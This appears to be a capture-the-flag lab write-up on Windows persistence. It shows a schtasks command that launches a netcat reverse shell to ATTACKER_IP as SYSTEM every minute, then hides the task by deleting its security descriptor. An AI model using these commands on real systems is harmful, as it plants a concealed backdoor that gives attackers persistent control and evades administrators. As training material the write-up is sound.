

# Abusing Scheduled Tasks

The most common way to schedule tasks is using the built-in Windows task scheduler.

Lets create a task that executes reverse shelle very single minute.

```
C:\> schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM
SUCCESS: The scheduled task "THM-TaskBackdoor" has successfully been created.
```

```
C:\> schtasks /query /tn thm-taskbackdoor

Folder: \
TaskName                                 Next Run Time          Status
======================================== ====================== ===============
thm-taskbackdoor                         5/25/2022 8:08:00 AM   Ready
```

## Making Our Task Invisible

To hide our schedules task, we can delete its SD (Security Descriptor). SD is a simply an ACL that states which users have access to scheduled task. By delting SD we are disallowing all users acc to the scheduled task, including administrators.

<figure><figcaption></figcaption></figure>

```
C:\> schtasks /query /tn thm-taskbackdoor 
ERROR: The system cannot find the file specified.
```

